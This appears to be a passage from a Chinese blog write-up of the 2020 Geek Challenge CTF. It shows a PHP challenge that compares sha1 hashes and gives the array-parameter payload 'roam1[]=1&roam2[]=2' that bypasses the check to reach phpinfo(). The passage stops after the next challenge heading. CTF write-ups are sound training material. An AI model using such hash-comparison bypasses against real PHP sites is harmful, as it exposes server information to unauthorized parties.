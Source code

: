 ```yaml
---
title: 极客大挑战
author: Pp1ove
avatar: 'https://wx1.sinaimg.cn/large/006bYVyvgy1ftand2qurdj303c03cdfv.jpg'
authorLink: hojun.cn
authorAbout: 一个好奇的人
authorDesc: 一个好奇的人
categories: 技术
comments: true
date: 2021-02-24 22:42:46
tags:
keywords:
description:
photos:
---
```




# 2020

## welcome

```php
<?php
error_reporting(0);
if ($_SERVER['REQUEST_METHOD'] !== 'POST') {
header("HTTP/1.1 405 Method Not Allowed");
exit();
} else {
    
    if (!isset($_POST['roam1']) || !isset($_POST['roam2'])){  
    show_source(__FILE__);
    }   
    else if ($_POST['roam1'] !== $_POST['roam2'] && sha1($_POST['roam1']) === sha1($_POST['roam2'])){
        phpinfo();  // collect information from phpinfo!
    }   
}
```

### 数组绕过

```php
roam1[]=1&roam2[]=2
```

## myblog

### 知识点

